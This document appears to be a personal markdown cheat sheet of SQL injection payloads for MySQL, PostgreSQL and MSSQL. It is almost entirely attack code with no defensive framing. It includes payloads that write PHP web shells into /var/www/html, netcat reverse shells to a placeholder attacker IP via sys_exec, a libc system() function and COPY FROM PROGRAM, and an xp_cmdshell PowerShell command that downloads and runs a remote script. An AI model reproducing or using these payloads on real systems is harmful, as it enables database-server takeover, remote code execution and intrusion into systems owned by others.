 # sql

Author: Julien Bongars
Date: 2025-09-20 17:19:28

---

Reverse shell for SQL commands

## MySQL

```sql
' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'--

# Direct Shell
' UNION SELECT sys_exec('nc -e /bin/bash YOUR_IP 4444')--
```

## Postgresql

```sql
'; COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO '/var/www/html/shell.php'--

# Using extensions (if enabled):
sql'; CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'c' STRICT--
'; SELECT system('nc -e /bin/bash YOUR_IP 4444')--

# use the program arg
' UNION SELECT 1; COPY (SELECT '') FROM PROGRAM 'nc -e /bin/bash YOUR_IP 4444'; --

```

### Additional cracks by col

## MSSQL

```sql
'; EXEC xp_cmdshell 'powershell -c "iex(new-object net.webclient).downloadstring(''http://YOUR_IP/shell.ps1'')"'--
```
